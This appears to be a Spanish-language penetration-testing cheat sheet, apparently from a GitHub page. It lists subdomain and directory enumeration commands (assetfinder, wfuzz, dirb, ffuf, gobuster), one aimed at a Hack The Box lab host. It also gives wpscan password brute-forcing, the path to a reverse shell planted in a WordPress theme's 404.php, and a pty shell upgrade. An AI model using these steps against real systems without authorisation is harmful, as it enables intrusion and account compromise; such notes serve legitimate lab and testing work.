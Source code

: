 #### ENUMERACIÖN DE SUBDOMINIOS:
##### Asset Finder
    assetfinder --subs-only pagina

##### WFUZZ
    wfuzz -c -z file,'diccionario' -u 'target' -H 'HOST:FUZZ.target'


    wfuzz -c -t 100 --hl=461 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.schooled.htb" http://10.10.10.234

#### ENUMERACIÖN DE DIRECTORIOS:
dirb target
searchdir -u target
############Ffuf:
ffuf -u <target_url>/FUZZ -w <wordlist_file> -e .<extension>

ffuf -u <target_url>/FUZZ -w <wordlist_file> -e <extension> -mc 200
########## Gobuster
Easy search
gobuster dir -u "url" -w "diccionario"

add files with extensions

gobuster dir -u <target_url> -w <wordlist_file> -x <extension>


###################################################### wpscan
wpscan -url "" 
wpscan -url "" --usernames "" --passwords "dictio"



acceder a la pagina php con la shell
http://"ip o url"/wp-content/themes/"tema"/404.php

si la reverse shell es la monkey, para migrar a una shell más estable:
python -c 'import pty;pty.spawn("/bin/bash")' 



